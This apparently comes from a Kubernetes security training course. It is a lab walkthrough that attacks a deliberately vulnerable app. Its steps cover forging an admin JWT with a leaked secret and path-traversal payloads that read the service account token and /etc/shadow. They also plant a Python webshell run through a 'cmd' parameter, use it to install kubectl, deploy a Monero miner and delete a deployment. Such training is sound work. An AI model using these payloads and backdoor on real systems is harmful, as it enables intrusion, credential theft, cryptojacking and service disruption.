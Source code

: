 # Exploit Application Vulnerabilities


Application vulnerabilities can bring wide range of different entrypoints. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.


## Steps to reproduce

<!-- TODO: выбросить, смерджить с Attacks -->

1. Deploy [vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`)
2. Go to [auth service](http://auth.vulnapp.seck8s.slurm.io/)
3. Sign-up any user and login
4. Get redirection to the [image service](https://images.vulnapp.seck8s.slurm.io/) with the greatest cat in the world :)
5. Decode JWT token and try to get more privileges
6. Write any interesting file (take a look at the image b64 data you'll receive)
7. Upload any interesting file (note: the container runs as root so you're relatively free)
8. Get working `kubectl` for the cluster


## Attack
2. register a test user in `auth-api`, get the JWT (with `user_role='user'`)
3. proceed to `images-api` with the JWT token, see the image (partially logged in)
<!-- > TODO: Show in dashboard : http://rus-vote.seck8s.slurm.io/clusters/local/namespaces/vulnapp/deployments/images-api/logs -->
<!-- JWT:
1) architecture issue: symmetric algo (HS256 not RS256) => both services use the same secret and can issue a new jwt
    look: our secret leaked from images service (LINK)
2) weak secret: can crack (https://github.com/lmammino/jwt-cracker)
3) privilege escalation
 -->
1. get the `SECRET_KEY`:
  - either find the [leaked value](http://rus-vote.seck8s.slurm.io/clusters/local/namespaces/vulnapp/deployments/images-api) in the exposed unprotected Dashboard
  - or check the Git commit history (`git blame`) to find the hard-coded secret in sources *vulnerability: [hard-coded credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*
  <!-- TODO: link to github -->
4. decode the JWT token using the leaked secret key and modify `user_role='admin'` (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
<!-- TODO: link to

https://github.com/Slurmio/webinar-seck8s/blob/60a70a81d8c4d86e1df0994eb14b7aadf9732b86/03-appsec/vulnerable-app/images-api/app.py#L23-L31
-->

<!-- NB: Source code is not secret -->

5. proceed to `images-api` with the new token, see the admin page
6. read some files: `../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token`, `../app.py`, `../../../../../../etc/shadow`, `../../../../../../etc/shadow/proc/1/environ`, etc.: (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)*)

> Note: inside the pod, kubectl is authenticated to the pod's SA. However, you could save SA's `token` and `ca.crt` to your local machine and, knowing the Kube API public URI, you can acess it remotely:
> ```kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>```

7. write the `./app.py` with backdoor activated via GET parameter `cmd` ([Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload))
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
    <!-- TODO: use pre-prepared payload app.py -->
    <!-- TODO: use curl not burp -->
8. since the server is in Debug mode, it auto-reloads without restarting the pod
9. use the backdoor to install `kubectl`:
    <!-- we're in Ubuntu, and root => apt-get  -->
    <!-- TODO: kubectl get all -->
    <!-- TODO: curl -->
  - `?cmd=apt-get+update`
  - `?cmd=apt-get+-y+install+curl`
  - Next, from https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/ :
  - `?cmd=curl%20-LO%20%22https://dl.k8s.io/release/$(curl%20-L%20-s%20https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl%22`
  - `?cmd=install%20-o%20root%20-g%20root%20-m%200755%20kubectl%20/usr/local/bin/kubectl`
  - `?cmd=kubectl+get+all`

<!-- TODO : 'kubectl cluster-info dump' -->

10. now you can use kubectl configured to the workload's service account (deploy a miner): `?cmd=kubectl+apply+-f+images/monero-deployment.yaml`
11. or shut down the cluster's payload (Deployment only, permitted by RBAC): `?cmd=kubectl+delete+deployment+auth-api`


# Takeaways
<!-- TODO: -->
